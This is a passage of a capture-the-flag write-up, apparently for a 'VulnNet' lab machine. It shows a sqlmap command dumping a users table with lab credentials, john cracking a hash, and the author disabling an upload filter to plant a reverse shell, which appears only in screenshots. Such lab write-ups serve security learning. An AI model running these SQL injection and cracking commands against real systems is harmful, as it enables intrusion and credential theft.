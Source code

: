 i tried a few word lists with `john` but nothing worked. i even tried easy password list with the user name `chris_w` and `hydra` but also nothing.

i remembered to check why the blog users were not complete. so i enumerated again with `sqlmap` and i found actually 650 usernames with passwords.

```shell
$ sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=0 -D blog -T users --dump
...
| 645 | 2QZrPJ2             | jovenhw            |
| 646 | t0xmZtLTXa          | gboayshx           |
| 647 | 09jD21OoQ           | asuermeiershy      |
| 648 | OBJZD6f             | msambidgehz        |
| 649 | Cc4QOkuSvrF         | bhuertai0          |
| 650 | kSKBUj8             | oboatmani1         |
| 651 | BIkqvmX             | rtamblingi2        |
+-----+---------------------+--------------------+
```

### john

after putting all usernames and passwords in one long word list i tried `john` again and got the password.

```shell
$ john --wordlist=poss_pws.txt chris_w.pw

?:v*********z

1 password hash cracked, 0 left
```

Using the username and password i found, i was able to login to the admin panel.

### getting reverse shell

![image](/images/Pasted image 20221107223246.png)

Reading through the panel options i found the upload function i mentioned earlier. this must be the way in.

![image](/images/Pasted image 20221107223308.png)

unfortunately i found an upload filter setting that is active. i tried to get around it but was not successful.

![image](/images/Pasted image 20221107223410.png)

i looked further and found where i could change the setting and just deleted the filter. now i needed to start a listener and upload the reverse shell.

![image](/images/Pasted image 20221107223513.png)

![image](/images/Pasted image 20221107223633.png)

